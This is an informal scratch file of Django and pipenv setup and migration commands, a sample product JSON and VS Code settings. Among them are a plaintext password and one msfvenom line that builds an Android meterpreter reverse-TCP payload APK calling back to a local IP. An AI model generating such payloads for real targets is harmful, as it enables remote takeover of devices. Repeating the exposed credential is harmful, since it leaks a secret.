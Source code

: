 pip install pipenv
pipenv shell

pipenv install django
pip install django

port:1024

django-admin startproject crm .
python manage.py startapp webapp

pipenv install djangorestframework


to know lib in django ==== " freeze >requirments.txt " 

python manage.py runserver
python manage.py makemigrations
python manage.py migrate
python manage.py sqlmigrate store 0003
python manage.py showmigrations

lemonAdmin@3!
git log --oneline
### password 
python manage.py createsuperuser
python manage.py changepassword "hazem"
pipenv install django-bootstrap4

install Thems:

pipenv install django-grappelli
python -m pip install pillow

16450-16460  
8391
https://hazem:8391

msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=192.168.242.128 LPORT=443 -o /root/home/mobile.apk



{
   "title" : "b" ,
   "slug" : "b" ,
   "unit_price" : 2 ,
   "collection" : 2,
   "inventory" : 2
}




    "workbench.iconTheme": "material-icon-theme",
    "terminal.integrated.defaultProfile.windows": "Command Prompt",
    "git.autofetch": true,
    "tabnine.experimentalAutoImports": true,
    "git.enableSmartCommit": true,
    "git.confirmSync": true,
    "editor.linkedEditing": true,
    "[html]": {
        "editor.defaultFormatter": "vscode.html-language-features"
    },
    "vscode-edge-devtools.webhintInstallNotification": true,
    "editor.formatOnSaveMode": "modifications",
    "files.autoSave": "afterDelay"